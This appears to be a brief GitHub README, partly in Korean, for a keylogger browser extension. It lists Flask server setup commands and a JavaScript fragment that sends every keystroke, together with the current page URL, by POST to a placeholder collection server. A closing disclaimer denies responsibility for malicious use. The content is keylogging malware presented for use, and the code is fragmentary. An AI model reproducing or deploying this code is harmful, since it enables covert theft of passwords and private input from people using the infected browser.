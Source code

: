 #  Keylogger Chrome Extensions 

### Python flask server

`pip install flask`

`pip install flask_cors`

`pip insatll pyopenssl`

[SSL 자체 인증 받는법](https://blog.miguelgrinberg.com/post/running-your-flask-application-over-https)


### Main js code

```js
  ...
  xhr.open('POST', 'https://youradress:8080/log');
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send(JSON.stringify({
    key: event.key,
    window: window.location.href,
    ...
 ```
 # warning
 
 1.**악의적으로 사용할시 책임지지 않습니다.**
 
 2.네트워크를 동일한 네트워크를 사용해야 키 기록을 받을수 있습니다.
 
 
 
 
